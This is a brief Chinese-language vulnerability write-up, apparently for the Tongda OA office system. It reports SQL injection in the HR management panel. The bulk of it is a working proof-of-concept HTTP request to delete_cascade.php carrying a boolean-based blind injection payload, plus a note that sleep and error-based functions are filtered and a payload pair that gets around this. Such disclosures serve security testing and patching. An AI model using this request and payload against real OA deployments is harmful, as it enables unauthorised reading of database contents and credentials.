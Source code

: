 在人员管理面板有一个SQL注入

![image-20210409191824931](images/%E9%80%9A%E8%BE%BEOA.assets/image-20210409191824931.png)

POC：

```
GET /general/hr/manage/query/delete_cascade.php?condition_cascade=select if((substr(user(),1,1)='r'),1,power(9999,99)) HTTP/1.1
Host: 192.168.77.137
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
X-Requested-With: XMLHttpRequest
Referer: http://192.168.77.137/general/index.php?isIE=0&modify_pwd=0
Cookie: PHPSESSID=ebpjtm5tqh5tvida5keba73fr0; USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=c71fa06d
DNT: 1
Connection: close
```

经过测试，过滤了一些函数(sleep、报错的函数等等)，各种注释，使用payload：

```
select if((1=1),1,power(9999,99))、select if((1=2),1,power(9999,99))
```
